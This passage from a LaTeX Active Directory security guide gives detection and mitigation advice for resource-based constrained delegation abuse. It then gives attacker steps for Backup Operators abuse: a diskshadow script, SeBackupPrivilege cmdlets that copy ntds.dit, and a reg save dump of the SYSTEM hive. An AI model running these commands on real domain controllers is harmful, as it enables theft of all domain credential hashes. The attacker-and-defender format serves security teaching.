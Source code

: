 \subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for changes to \texttt{msds-allowedtoactonbehalfofotheridentity} in AD audit logs.
        \item Look for abnormal \texttt{S4U2Self / S4U2Proxy} ticket requests, especially for high-privilege accounts.
        \item Use SIEM rules to catch new delegation configurations outside standard provisioning workflows.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Limit delegation permissions to only specific, necessary accounts.
        \item Apply \textbf{Privileged Account Protection} (Protected Users group) to prevent delegations.
        \item Disable RBCD unless explicitly required.
    \end{itemize}
\end{itemize}

\section{2. Backup Operators Group Abuse}

\subsection{Attacker View}
Members of the \textbf{Backup Operators} group have the \texttt{SeBackupPrivilege}, allowing them to read any file, including the DC's \texttt{ntds.dit} database and \texttt{SYSTEM} hive.

\textbf{Steps:}
\begin{lstlisting}
# Create diskshadow script
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
end backup

# Run diskshadow script
diskshadow /s script.txt

# Load DLLs for backup API access
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

# Copy ntds.dit from shadow copy
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\Path\ntds.dit -Overwrite

# Dump SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive
\end{lstlisting}

